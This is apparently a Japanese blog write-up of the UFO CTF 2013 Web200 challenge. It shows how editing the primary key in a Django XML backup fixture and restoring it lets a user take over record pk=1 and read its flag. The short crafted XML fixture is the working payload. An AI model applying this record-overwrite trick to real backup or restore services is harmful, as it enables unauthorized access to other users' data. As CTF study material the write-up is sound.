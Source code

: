 ```yaml
---
title: UFO CTF 2013 writeup – Web200
author: tyage
type: post
date: 2013-10-05T14:55:08+00:00
url: /archive/p719.html
wp-syntax-cache-content:
  - |
    a:2:{i:1;s:6293:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="xml" style="font-family:monospace;"><span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;?xml</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span> <span style="color: #000066;">encoding</span>=<span style="color: #ff0000;">&quot;utf-8&quot;</span><span style="color: #000000; font-weight: bold;">?&gt;</span></span>
    <span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;django-objects</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
    	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;object</span> <span style="color: #000066;">pk</span>=<span style="color: #ff0000;">&quot;12349813568&quot;</span> <span style="color: #000066;">model</span>=<span style="color: #ff0000;">&quot;hosting.pagesettings&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_name&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>username<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_email&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>test@localhost<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_title&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>My homepage<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;TextField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_content&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>Hello everyone! This is my new homepage.<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_footer&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>Made with love and care<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;BooleanField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_is_public&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>False<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_public_id&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/object<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    <span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/django-objects<span style="color: #000000; font-weight: bold;">&gt;</span></span></span></pre></td></tr></table><p class="theCode" style="display:none;">&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
    &lt;django-objects version=&quot;1.0&quot;&gt;
    	&lt;object pk=&quot;12349813568&quot; model=&quot;hosting.pagesettings&quot;&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;owner_name&quot;&gt;username&lt;/field&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;owner_email&quot;&gt;test@localhost&lt;/field&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;page_title&quot;&gt;My homepage&lt;/field&gt;
    		&lt;field type=&quot;TextField&quot; name=&quot;page_content&quot;&gt;Hello everyone! This is my new homepage.&lt;/field&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;page_footer&quot;&gt;Made with love and care&lt;/field&gt;
    		&lt;field type=&quot;BooleanField&quot; name=&quot;page_is_public&quot;&gt;False&lt;/field&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;page_public_id&quot;&gt;&lt;/field&gt;
    	&lt;/object&gt;
    &lt;/django-objects&gt;</p></div>
    ";i:2;s:2398:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="xml" style="font-family:monospace;"><span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;?xml</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span> <span style="color: #000066;">encoding</span>=<span style="color: #ff0000;">&quot;utf-8&quot;</span><span style="color: #000000; font-weight: bold;">?&gt;</span></span>
    <span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;django-objects</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
    	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;object</span> <span style="color: #000066;">pk</span>=<span style="color: #ff0000;">&quot;1&quot;</span> <span style="color: #000066;">model</span>=<span style="color: #ff0000;">&quot;hosting.pagesettings&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
    		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_name&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>username<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/object<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
    <span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/django-objects<span style="color: #000000; font-weight: bold;">&gt;</span></span></span></pre></td></tr></table><p class="theCode" style="display:none;">&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
    &lt;django-objects version=&quot;1.0&quot;&gt;
    	&lt;object pk=&quot;1&quot; model=&quot;hosting.pagesettings&quot;&gt;
    		&lt;field type=&quot;CharField&quot; name=&quot;owner_name&quot;&gt;username&lt;/field&gt;
    	&lt;/object&gt;
    &lt;/django-objects&gt;</p></div>
    ";}
categories:
  - CTF

---
```

<pre>
Those aliens consider themselves as the most smart creatures in
the world. Pff. They shouldn't even have tried to defeat mankind
having such stupid stuff in their heads! As for you, why wouldn't
you hack them? They'll most likely surrender then. By the way, it
is known that they update some data every 10-20 seconds, but
unfortunately our equipment can't intercept the data itself.
 
http://superhosting.tasks.ufoctf.ru:8000/
</pre>
<p>自分のウェブページが作れ、バックアップと復元ができるシステムになっている。</p>
<p>バックアップしてみると、[username]_[md5(username)][md5(zipfile)].zipという名前でzipファイルがダウンロードでき、それをアップロードすることで復元ができるようになっている。<br />
zipファイルの中身を解凍すると、.backupという名前で以下のようなファイルが入っている。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="xml" style="font-family:monospace;"><span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;?xml</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span> <span style="color: #000066;">encoding</span>=<span style="color: #ff0000;">&quot;utf-8&quot;</span><span style="color: #000000; font-weight: bold;">?&gt;</span></span>
<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;django-objects</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;object</span> <span style="color: #000066;">pk</span>=<span style="color: #ff0000;">&quot;12349813568&quot;</span> <span style="color: #000066;">model</span>=<span style="color: #ff0000;">&quot;hosting.pagesettings&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_name&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>username<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_email&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>test@localhost<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_title&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>My homepage<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;TextField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_content&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>Hello everyone! This is my new homepage.<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_footer&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>Made with love and care<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;BooleanField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_is_public&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>False<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;page_public_id&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/object<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/django-objects<span style="color: #000000; font-weight: bold;">&gt;</span></span></span></pre></td></tr></table></div>

<p>いろいろと試した結果、復元時にpk(primary key)を変えた場合にそのpkを持つフィールドのデータを上書きすることができるとわかった。</p>
<p>以下のようなxmlファイルを含めて復元し、再びバックアップをダウンロードすると、pk=1のデータの入ったバックアップファイルが手に入り、pk=1のデータにflagが書かれていた。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="xml" style="font-family:monospace;"><span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;?xml</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span> <span style="color: #000066;">encoding</span>=<span style="color: #ff0000;">&quot;utf-8&quot;</span><span style="color: #000000; font-weight: bold;">?&gt;</span></span>
<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;django-objects</span> <span style="color: #000066;">version</span>=<span style="color: #ff0000;">&quot;1.0&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;object</span> <span style="color: #000066;">pk</span>=<span style="color: #ff0000;">&quot;1&quot;</span> <span style="color: #000066;">model</span>=<span style="color: #ff0000;">&quot;hosting.pagesettings&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>
		<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;field</span> <span style="color: #000066;">type</span>=<span style="color: #ff0000;">&quot;CharField&quot;</span> <span style="color: #000066;">name</span>=<span style="color: #ff0000;">&quot;owner_name&quot;</span><span style="color: #000000; font-weight: bold;">&gt;</span></span>username<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/field<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
	<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/object<span style="color: #000000; font-weight: bold;">&gt;</span></span></span>
<span style="color: #009900;"><span style="color: #000000; font-weight: bold;">&lt;/django-objects<span style="color: #000000; font-weight: bold;">&gt;</span></span></span></pre></td></tr></table></div>

